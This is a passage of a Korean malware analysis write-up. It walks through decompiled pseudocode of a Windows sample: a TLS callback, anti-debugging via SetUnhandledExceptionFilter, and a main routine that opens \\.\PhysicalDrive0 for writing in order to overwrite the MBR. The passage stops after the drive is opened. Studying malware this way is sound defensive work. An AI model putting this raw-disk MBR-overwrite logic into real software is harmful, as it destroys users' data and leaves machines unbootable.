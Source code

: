     entry 함수에서 만나는 첫 함수를 타고 들어오면 있는 부분이다.
    
    ```cpp
    undefined4 tls_callback_0(undefined4 param_1,int param_2)
    
    {
      if (_DAT_00409064 != 2) {
        _DAT_00409064 = 2;
      }
      if ((param_2 != 2) && (param_2 == 1)) {
        FUN_00401c30(param_1,1);
      }
      return 1;
    }
    ```
    
    `tls_callback_0` 을 호출할 때 0과 1을 인자로 준다. 일단 뒤의 if 문에서는 절대 걸릴 일이 없다(param_2가 2니까).
    
    `_DAT_00409064` 가 2가 아닌지 확인을 하는데, 얘는 뭘까 일단 악성행위에 크게 중요한 부분은 아닌 것 같으니 넘어간다.
    
    `SetUnhandledExceptionFilter` 으로 검색해보면 anti debugging에 많이 사용되는 함수라고 나온다. 그래서 이 부분은 다 안티 디버깅 용으로 생각하고 넘어간다.
    
    실제 MBR 덮어쓰는 함수는 `FUN_00403b60((char)DAT_00409004)` 이다. (MBR overwirte 하고 나면 프로그램이 끝나는 것)
    
- main 로직 부분
    
    ```cpp
    undefined4 FUN_00403b60(undefined param_1)
    
    {
      int iVar1; 
      uint uVar2;
      HANDLE pvVar3;
      BOOL BVar4;
      int iVar5;
      undefined4 *puVar6;
      undefined4 *puVar7;
      undefined4 local_2020 [2050];
      undefined4 uStackY24;
      LPOVERLAPPED p_Stack4;
      
      uStackY24 = 0x403b7a;
      uVar2 = FUN_00401fe0(4);
      iVar1 = -uVar2;
      *(undefined4 *)((int)&uStackY24 + iVar1) = 0x403b8c;
      FUN_00401990();
      puVar6 = &DAT_00404020;
      puVar7 = local_2020;
      for (iVar5 = 0x800; iVar5 != 0; iVar5 = iVar5 + -1) {
        *puVar7 = *puVar6;
        puVar6 = puVar6 + 1;
        puVar7 = puVar7 + 1;
      }
      *(undefined4 *)(&param_1 + iVar1) = 0;
      *(undefined4 *)(&stack0x00000000 + iVar1) = 0;
      *(undefined4 *)((int)&p_Stack4 + iVar1) = 3;
      *(undefined4 *)(&stack0xfffffff8 + iVar1) = 0;
      *(undefined4 *)(&stack0xfffffff4 + iVar1) = 3;
      *(undefined4 *)(&stack0xfffffff0 + iVar1) = 0x10000000;
      *(wchar_t **)(&stack0xffffffec + iVar1) = L"\\\\.\\PhysicalDrive0";
      *(undefined4 *)((int)&uStackY24 + iVar1) = 0x403bcf;
      pvVar3 = CreateFileW(*(LPCWSTR *)(&stack0xffffffec + iVar1),*(DWORD *)(&stack0xfffffff0 + iVar1),
                           *(DWORD *)(&stack0xfffffff4 + iVar1),
                           *(LPSECURITY_ATTRIBUTES *)(&stack0xfffffff8 + iVar1),
                           *(DWORD *)((int)&p_Stack4 + iVar1),*(DWORD *)(&stack0x00000000 + iVar1),
                           *(HANDLE *)(&param_1 + iVar1));
      *(HANDLE *)(&stack0xffffffec + iVar1) = pvVar3;